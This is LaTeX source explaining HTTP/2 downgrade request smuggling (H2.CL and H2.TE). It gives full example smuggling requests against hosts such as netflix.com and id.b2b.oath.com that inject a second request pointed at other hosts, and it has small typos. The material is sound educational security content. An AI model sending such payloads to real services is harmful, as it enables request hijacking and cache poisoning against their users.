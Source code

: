 \documentclass[conference]{IEEEtran}
\begin{document}
In HTTP 2, the frontend generally uses HTTP 2's built in length. However, the backend which recieves the downgraded request and has no access to this built in length. Therefore, it has to pick between one of TE and CL. This gives rise to two kinds of vulnerabilities
\begin{enumerate}
	\item \textbf{H2.CL} - Consider the following HTTP 2 request
	\begin{verbatim}
		:method	POST
:path	/n
:authority	www.netflix.com
content-length	4
abcdGET /n HTTP/1.1
Host: 02.rs?x.netflix.com
Foo: bar
	\end{verbatim}

After downgrading, it looks like
\begin{verbatim}
	POST /n HTTP/1.1
Host: www.netflix.com
Content-Length: 4

abcdGET /n HTTP/1.1
Host: 02.rs?x.netflix.com
Foo: bar
\end{verbatim}
The backend which uses CL, stops processing the request body early, due to the incorrect length, and treats the rest of the request as a new request. This is the H2.CL vulnerability. \\

\item \textbf{H2.TE} - Consider the following HTTP 2 request
\begin{verbatim}
	:method	POST
:path	/identitfy/XUI
:authority	id.b2b.oath.com
transfer-encoding	chunked
0

GET /oops HTTP/1.1
Host: psres.net
Content-Length: 10

x=
\end{verbatim}
After downgrading, it looks like
\begin{verbatim}
	POST /identity/XUI HTTP/1.1
Host: id.b2b.oath.com
Content-Length: 66
Transfer-Encoding: chunked

0

GET /oops HTTP/1.1
Host: psres.net
Content-Length: 10

x=
\end{verbatim}
When the backend uses TE and assumes the data is in chunked bytes, it sees the first chunk of 0 length and stops processing the request body. The rest of the request is treated as a new request. This is the H2.TE vulnerability. \\


\end{enumerate}
\end{document}
